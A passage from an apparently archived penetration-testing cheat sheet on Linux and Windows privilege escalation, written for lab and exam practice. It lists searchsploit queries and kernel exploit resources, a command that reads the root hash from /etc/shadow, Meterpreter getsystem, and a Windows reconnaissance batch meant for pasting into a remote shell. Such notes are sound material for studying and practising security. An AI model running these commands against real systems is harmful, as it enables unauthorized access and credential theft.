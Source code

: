 *   SearchSploit

              searchsploit –uncsearchsploit apache 2.2  
              searchsploit "Linux Kernel"  
              searchsploit linux 2.6 | grep -i ubuntu | grep local  
              searchsploit slmail

*   Kernel Exploit Suggestions for Kernel Version 3.0.0

    `./usr/share/linux-exploit-suggester/Linux_Exploit_Suggester.pl -k 3.0.0`

*   Precompiled Linux Kernel Exploits - _**Super handy if GCC is not installed on the target machine!**_

    [_https://www.kernel-exploits.com/_](http://web.archive.org/web/20171113221652/https://www.kernel-exploits.com/)

*   Collect root password

    `cat /etc/shadow |grep root`

*   Find and display the proof.txt or flag.txt - LOOT!

            cat `find / -name proof.txt -print`

*   ## [](#windows-privilege-escalation)Windows Privilege Escalation

*   Windows Privilege Escalation resource [http://www.fuzzysecurity.com/tutorials/16.html](http://web.archive.org/web/20171113221652/http://www.fuzzysecurity.com/tutorials/16.html)

*   Metasploit Meterpreter Privilege Escalation Guide [https://www.offensive-security.com/metasploit-unleashed/privilege-escalation/](http://web.archive.org/web/20171113221652/https://www.offensive-security.com/metasploit-unleashed/privilege-escalation/)

*   Try the obvious - Maybe the user is SYSTEM or is already part of the Administrator group:

    `whoami`

    `net user "%username%"`

*   Try the getsystem command using meterpreter - rarely works but is worth a try.

    `meterpreter > getsystem`

*   No File Upload Required Windows Privlege Escalation Basic Information Gathering (based on the fuzzy security tutorial and windows_privesc_check.py).

    Copy and paste the following contents into your remote Windows shell in Kali to generate a quick report:

         @echo --------- BASIC WINDOWS RECON ---------  > report.txt
         timeout 1
         net config Workstation  >> report.txt
         timeout 1
         systeminfo | findstr /B /C:"OS Name" /C:"OS Version" >> report.txt
         timeout 1
         hostname >> report.txt
         timeout 1
         net users >> report.txt
         timeout 1
         ipconfig /all >> report.txt
         timeout 1
         route print >> report.txt
         timeout 1
         arp -A >> report.txt
         timeout 1
         netstat -ano >> report.txt
         timeout 1
         netsh firewall show state >> report.txt	
         timeout 1
         netsh firewall show config >> report.txt
         timeout 1
         schtasks /query /fo LIST /v >> report.txt